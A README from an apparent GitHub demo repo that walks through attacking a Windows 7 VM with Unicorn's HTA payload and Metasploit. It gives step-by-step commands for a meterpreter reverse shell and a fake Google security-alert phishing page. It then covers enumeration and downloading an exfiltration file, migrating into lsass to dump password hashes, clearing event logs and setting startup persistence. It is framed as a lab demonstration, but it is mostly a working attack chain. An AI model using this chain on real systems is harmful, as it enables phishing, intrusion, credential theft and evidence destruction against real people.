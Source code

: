# Unicorn Demo 
I have built this as a way to demo attacking a Windows 7 machine using metasploit and Unicorn's HTA attack.  
Todd Murray pdxgeek57@gmail.com

## Environment Details

Kali from https://www.kali.org/downloads/  
Unicorn from https://github.com/trustedsec/unicorn  
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso from https://the-eye.eu/public/MSDN/Windows%207/  
I used VMware 11.5 on MacOS Catalina 10.15.2 but you can use other HyperVisors.  
**I would NOT reccomend AWS/Azure as they may interpret these activities as malicous and kill your environment/account**  
Note that VMware versions lower than 11 have display issues with VM's on Catalina  

## Kali Setup

Download and Install the latest Kali Linux 64-Bit Image  
Run 'apt update' and then 'apt upgrade'. This will update Kali to the latest including metasploit which we will be using.  
Enable Postgresql and Apache2 to start at boot 'systemctl enable postgresql' and 'systemctl enable apache2'  
Start Postgresql and Apache2 "systemctl start postgresql' and 'systemctl start apache2'  
Start Metasploit "msfconsole' to initialize the db then 'exit' out  

## Windows 7 Setup
 
Install Windows in a trial, no key is needed unless you have a valid license  
During install I created an administrator account named "admin". IF you use somethign else you will need to make changes later on.  
If you are testing against an AV solution make sure its in "Detect Only" mode.  
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM  
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can google this if your not sure how.  


## Setup Kali (All done in a Terminal window, if you are not root you may need to use sudo for some commands)

Switch to /opt 'cd /opt'  
Download Unicorn 'git clone https://github.com/trustedsec/unicorn.git'  
Run 'ifconfig' and note your IP  
Switch to /opt/unicorn 'cd /opt/unicorn'  
Review the README.md  
Run unicorn.py using your kali IP and hta method for revese_tcp payload 'python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta'  
This generates and hta_attack folder that you now copy to /var/www/html 'cp hta_attack /var/www/html'  
Switch to /var/www/html/hta_attack 'cd /var/www/html/hta_attack'  
Use your favorite editor to modify unicorn.rc 'vi unicorn.rc'  
Make sure AutoVerifySession, AutoSystemInfo, and AutoLoadStdapi are all set to true then save your changes    

This generates the payload and metasploit configuration into our apache instance.  
In my case the URL is http://172.16.105.131/hta_attack/  
What i did next was generated a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the URL above". I also went into my Google account to the Security settings page and saved this page. I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted. It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.


## Next is to setup what we will do once we click the email link and open Launncher.hta

Download this repo that contains my demo.rc script  
Go back to /opt 'cd /opt/' and clone this repo 'git clone https://github.com/wond696/unicorn-demo.git'  
Switch to /opt/unicorn-demo and review demo.rc 'cd /opt/unicorn-demo' and 'cat demo.rc'  
My script is based on being logged in as a user named "admin", you may have to make modifications if you use a different account. Also, ensure the quotes in the file remain quotes, some text editors try to change one to a reverse quote which breaks the process  
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and causes a keyboard buffering problem so I'm only do base collection in the script and uploading files.  

## Download JAWS 'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'  
Review the README.md 'cat /opt/JAWS/README.md'  
  
Start our metasploit listener 'msfconsole -r /var/www/html/hta_attack/unicorn.rc'  
Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ and run/open the file when prompted  
This will generate a reverse tcp onto port 4444, you should see the session start.  
Confirm the session 'sessions -i'  
Connect to the session number 'sessions -i 1'  
Run demo.rc at the meterpreter prompt 'run /opt/unicorn-demo/demo.rc'  
Run the following commands (You may have to hit enter after the powershell commands run)  
'shell'  
'powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted' Enables powershell script execution.  
'powershell ./jaws-enum.ps1 exfil.txt' On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.  
'exit'  
'download exfil.txt'  
'rm jaws-enum.ps1'  
'rm exfil.txt'  
'run post/windows/manage/migrate' This should migrate you to a new notepad.exe process.  
'ps' Review and find the pid for lsass.exe  
'migrate 592' Use the pid for lsass.exe If this works you are now under a SYSTEM process.  
'hashdump' This will give you hashes that you might be able to convert to plaintext in jacktheripper or https://crackstation.net/  
'clearev' Clears Windows Logs


If you have followed this precisly and made changes to IP and username where needed you should have gather a lot of system information, have a exfil.txt file in your current directory, Launcher.hta should now be persitent by being in the users Start Menu > Startup. Reboot your Windows 7 VM to test, it should reconnect after you login.
